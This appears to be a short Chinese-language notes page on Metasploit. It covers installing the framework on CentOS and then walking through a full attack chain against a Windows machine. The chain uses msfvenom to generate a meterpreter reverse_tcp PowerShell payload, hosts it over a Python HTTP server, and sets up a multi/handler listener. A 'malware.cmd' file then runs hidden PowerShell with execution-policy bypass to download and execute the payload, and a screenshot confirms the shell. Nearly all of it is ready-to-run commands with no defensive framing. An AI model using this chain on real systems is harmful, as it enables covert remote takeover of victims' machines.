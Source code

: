 ```yaml
---
layout: default
title: Metasploit
parent: Security
nav_order: 6
permalink: /docs/security/metasploit
---
```


# Metasploit


{: .no_toc}

## 目录

{: .no_toc .text-delta }


1. TOC
{:toc}

## CentOS 安装 Metasploit

```shell
sudo yum install epel-release
sudo yum install snapd
sudo systemctl enable --now snapd.socket
sudo ln -s /var/lib/snapd/snap /snap
sudo snap install metasploit-framework


# 在 .bash_profile 中添加下列内容
PATH=$PATH:/var/lib/snapd/snap/bin/

# 运行下列命令
source .bash_profile
```



## Linux 上创建脚本

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.50.9 LPORT=443 -f psh -o rshell.ps1
```



```shell
python2 -m SimpleHTTPServer &
```



```shell
cat > PSListener.rc <<EOF
use multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp 
set LHOST 10.10.50.9
set LPORT 443
set ExitOnSession false
exploit -j
EOF
```



```shell
sudo msfconsole -n -q
msf5 > resource PSListener.rc
```

之后会监听 443：

```shell
[root@Docker-host metasploit]# netstat -ltnp | grep 443
tcp        0      0 10.10.50.9:443          0.0.0.0:*               LISTEN      2588/ruby
```



## Windows 执行



```shell
# 创建此文件 malware.cmd
powershell.exe -exec bypass -noexit -w hidden -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.50.9:8000/rshell.ps1')"
```



通过  cmd 执行：

```shell
malware.cmd
```

执行完成后再 msfconsole 中看到下列日志，标识反弹 shell 成功建立：

![image-20240523123604324](../../pics/image-20240523123604324.png)
